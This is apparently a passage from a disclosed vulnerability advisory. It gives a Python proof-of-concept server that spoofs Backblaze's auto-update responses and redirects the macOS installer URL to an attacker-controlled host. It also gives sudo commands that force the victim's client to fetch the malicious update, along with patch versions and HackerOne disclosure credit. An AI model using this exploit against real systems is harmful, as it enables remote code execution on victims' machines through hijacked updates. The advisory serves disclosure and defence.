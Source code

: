 ```python
    def do_GET(self):
        self.send_response(200)
        self.send_header("Content-Length", str(len(payload)))
        self.end_headers()
        self.wfile.write(payload.encode())

    def do_POST(self):
        self.send_response(200)
        form = cgi.FieldStorage(
            fp=self.rfile,
            headers=self.headers,
            environ={"REQUEST_METHOD": "POST"})
        response = str.encode(
            ' update_hguids_firstchar="' + form.getvalue("hguid")[0] + '"' +
            ' win32_version="1' + form.getvalue("version") + '"' +
            ' mac_version="1' + form.getvalue("version") + '"' +
            ' mac_url="%DEST_HOST%/api/install_backblaze"')
        self.send_header("Content-Length", str(len(response)))
        self.end_headers()
        self.wfile.write(response)

    def do_CONNECT(self):
        self.wfile.write("HTTP/1.1 200\r\n")
        self.end_headers()
        self.rfile = self.connection.makefile("rb", self.rbufsize)
        self.wfile = self.connection.makefile("wb", self.wbufsize)
        self.close_connection = 0

httpd = HTTPServer(("localhost", 443), Handler)
httpd.socket = ssl.wrap_socket(httpd.socket, certfile="server.pem",
                               server_side=True)
httpd.serve_forever()
```

Once the code above is running, wait. The victim's client checks for an update every couple of hours. 

If you'd like to test the PoC without waiting, you can run the following commands on the victim's system to force the update check: 

* `sudo rm /Library/Backblaze.bzpkg/bzdata/bzupdates/bzautoupdate_2_hour_lock.lck`
* `sudo /Library/Backblaze.bzpkg/bztransmit -fetchclientversionxml`
* `sudo /Library/Backblaze.bzpkg/bztransmit -downloadautoupdateifappropriate`

## Mitigation
Backblaze patched this vulnerability in Backblaze version `7.0.1.433` for Windows and version `7.0.1.434` for macOS.

## Discoverer
This vulnerability was discovered and reported to Backblaze by Jason Geffner via HackerOne.
